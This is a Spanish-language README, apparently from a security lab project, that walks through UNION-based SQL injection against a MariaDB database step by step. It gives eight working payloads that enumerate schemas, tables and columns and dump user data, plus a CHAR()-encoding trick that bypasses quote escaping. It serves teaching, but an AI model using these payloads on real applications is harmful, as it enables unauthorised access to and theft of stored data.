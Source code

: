 ## SQL Injection Paso a Paso

### 1. Listar todas las tablas de la base de datos actual

Este comando devuelve una lista de todas las tablas en la base de datos actual a la que se ha conectado el atacante.

```
1 UNION SELECT table_name, NULL FROM information_schema.tables --
```

- ```1```: Selección de la primera columna de la consulta (en este caso, el número 1 es utilizado para igualar el número de columnas en la consulta original, se necesita que se devuelva el usuario 1 y la siguiente consulta con UNION).
</br>
    <img src="./assets/user_sql.png" style="width:150px;">
</br>
- ```UNION```: Operador SQL utilizado para combinar los resultados de múltiples consultas.
- ```SELECT``` table_name, NULL: El atacante está seleccionando el nombre de las tablas (table_name) y un valor nulo en la segunda columna. El valor nulo es necesario para igualar el número de columnas con la consulta original.
- ```FROM``` information_schema.tables: El information_schema es una base de datos especial en MariaDB que contiene información sobre las bases de datos, tablas, columnas, etc. tables es una vista que contiene los nombres de todas las tablas de la base de datos.
- ```--```: Comentario para ocultar el resto de la consulta original (opcional).

### 2. Listar la base de datos actual

Este comando muestra la base de datos actual que se está utilizando.

```
1 UNION SELECT database(), NULL --
```

- ```database()```: Función MariaDB que devuelve el nombre de la base de datos actual.
- ```NULL```: Se selecciona un valor nulo para igualar el número de columnas de la consulta original, en este caso la informacion la va a dar en el apartado "First name" y el NULL es para el apartado "Surname".

### 3. Listar todas las bases de datos

Este comando muestra una lista de todas las bases de datos disponibles en el servidor MariaDB.

```
1 UNION SELECT schema_name, NULL FROM information_schema.schemata --
```
- ```schema_name```: Devuelve el nombre de cada base de datos.
- ```FROM information_schema.schemata```: El information_schema.schemata es una vista que contiene información sobre todas las bases de datos en el servidor MariaDB.

### 4. Listar tablas de una base de datos específica
Este comando muestra todas las tablas en una base de datos específica, en este caso, la base de datos llamada Member_Sql_Injection.

```
1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110) --
```

> [!CAUTION]
> ¿Por que usso ASCII en vez de ```Member_Sql_Injection```. Si utilizas ```Member_Sql_Injection```, aparece este error: ```You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'Member_Sql_Injection\' --' at line 1```. Eso se debe a una forma común de protección contra inyecciones SQL conocida como "escapado de caracteres". En la mayoría de los sistemas de gestión de bases de datos (DBMS), se utiliza una técnica de escapado para prevenir ataques de inyección SQL, donde los caracteres especiales como las comillas simples (') o dobles (") se preceden por una barra invertida (\) para indicar que esos caracteres deben ser tratados literalmente y no como parte de una expresión SQL. Con carcteres ASCII se puede saltar esta protección.

- ```CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110)```: Esta función CHAR() convierte una secuencia de valores numéricos en caracteres ASCII. En este caso, se traduce a 'Member_Sql_Injection'.
- ```WHERE table_schema = 'Member_Sql_Injection'```: Filtra las tablas de la base de datos Member_Sql_Injection.

### 5. Listar las columnas de una tabla en la base de datos actual
Este comando muestra las columnas de una tabla en la base de datos actual.

```
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = CHAR(117, 115, 101, 114, 115) --
```

- ```CHAR(117, 115, 101, 114, 115)```: Similar al ejemplo anterior, este comando convierte los valores numéricos a caracteres ASCII, lo que da como resultado 'users'. Este es el nombre de la tabla de la que se desea obtener las columnas.
- ```FROM information_schema.columns```: Esta vista contiene información sobre las columnas de las tablas.
- ```WHERE table_name = 'users'```: Filtra las columnas de la tabla users.

### 6. Listar las columnas de una tabla en una base de datos específica
Este comando muestra las columnas de una tabla de una base de datos específica. En este caso, la base de datos es Member_Sql_Injection y la tabla es users.

```
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'Member_Sql_Injection' --
```

- ```WHERE table_name = 'users' AND table_schema = 'Member_Sql_Injection'```: Filtra las columnas de la tabla users en la base de datos Member_Sql_Injection.

### 7. Mostrar contenido de una columna de una tabla en la base de datos actual
Este comando devuelve el contenido de una columna específica, en este caso, de la tabla users en la base de datos actual.

```1 UNION SELECT countersign, NULL FROM users --```

countersign: El atacante está solicitando el contenido de la columna countersign de la tabla users.
FROM users: Especifica la tabla users de la base de datos actual.

### 8. Mostrar contenido de una columna de una tabla en una base de datos específica
Este comando muestra el contenido de la columna username de la tabla users en la base de datos Member_Sql_Injection.

```
1 UNION SELECT username, NULL FROM Member_Sql_Injection.users --
```

- ```Member_Sql_Injection.users```: Especifica la base de datos Member_Sql_Injection y la tabla users.

- ```username```: Se selecciona el contenido de la columna username.

